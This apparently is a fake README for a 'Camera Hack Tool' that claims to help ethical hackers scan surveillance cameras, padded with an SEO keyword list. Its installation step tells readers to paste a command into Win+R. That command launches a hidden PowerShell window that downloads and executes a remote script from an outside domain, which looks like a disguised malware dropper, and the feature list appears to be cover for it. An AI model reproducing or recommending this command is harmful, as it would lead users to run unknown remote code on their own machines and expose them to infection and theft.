 # Cam Hacker Tool 📷

## Description
**Camera Hack Tool** is an advanced desktop application designed for security professionals and ethical hackers to assess the vulnerability of camera systems. This tool allows users to identify weaknesses in surveillance setups and ensure the integrity of camera networks.

## Key Features
- **Vulnerability Scanning**: Scan for known vulnerabilities in camera firmware and configurations.
- **Network Analysis**: Analyze the security of the network to which the cameras are connected.
- **Access Control Testing**: Test the strength of access controls and authentication mechanisms.
- **Live Feed Monitoring**: Monitor live feeds from connected cameras to assess security in real-time.
- **Reporting Tools**: Generate detailed reports on vulnerabilities and suggested remediation steps.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

### Installation
- Follow the on-screen instructions to install the program on your device from command.

### Launching
- Launch Camera Hack Tool from your desktop or application menu.
- Register or log into your account if necessary.

## Usage
1. Select the camera system or network you want to assess.
2. Run vulnerability scans and analyze the results.
3. Review live feeds and generate reports on security findings.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Camera Hack Tool, you can enhance your security assessments and ensure that camera systems are protected from potential threats! 😊

## SEO Keywords
- Camera Hack Tool
- Surveillance system security
- Vulnerability scanning
- Network analysis
- Cam Hacker
- Live feed monitoring
- Ethical hacking tools
- Security assessments
- Camera network integrity
